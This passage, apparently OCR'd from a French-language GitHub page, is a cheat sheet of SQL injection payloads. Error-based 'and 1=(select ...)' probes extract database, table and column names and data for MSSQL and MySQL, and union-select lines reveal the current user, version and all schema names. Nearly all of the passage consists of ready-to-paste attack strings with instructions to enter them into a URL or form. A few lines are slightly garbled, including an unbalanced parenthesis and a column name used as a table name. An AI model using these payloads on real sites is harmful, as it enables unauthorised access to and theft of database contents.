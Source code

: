 
- Obtenir le nom de la base de données : saisissez l'instruction suivante dans l'URL ou le formulaire pour voir si le nom de la base de données peut être affiché.
```sql
and 1= (select db_name ())
#ou
and 1= (select database())
```
 

   - Obtenir le nom de la table : saisissez l'instruction suivante dans l'URL ou le formulaire pour voir si le nom de la table peut être affiché. 
```sql
and 1= (select top 1 name from sysobjects where xtype='U')
#ou
and 1= (select table_name from information_schema.tables limit 1)
```
 

   - Obtenir le nom de la colonne : saisissez l'instruction suivante dans l'URL ou le formulaire pour voir si le nom de la colonne peut être affiché. 
```sql
and 1= (select top 1 name from syscolumns where id=object_id('nom de la table')
# ou
and 1= (select column_name from information_schema.columns where table_name='nom de la table'limit 1)
```
 

   - Obtenir des données : saisissez l'instruction suivante dans l'URL ou le formulaire pour voir si les données peuvent être affichées. 
```sql
and 1= (select top 1 Nom_colonne from Nom_table)
#ou
and 1= (select Nom_colonne from Nom_colonne limit 1)
```
 
## Commandes courantes dans l'injection SQL

   1) Exemples de commandes courantes utilisées dans l'injection SQL : 
      - Afficher l'utilisateur actuel 
```sql
union select 1, (select user ())–+
```
 

      - Visualisation de la version de la base de données 
```sql
union select 1, (select version ())–+
```
 

      - Affichage du nom de la base de données actuelle 
```sql
union select 1, (select database ())–+
```
 

      - Voir tous les noms de bases de données 
```sql
union select 1, (select group_concat (schema_name) from information_schema.schemata)–+
```
 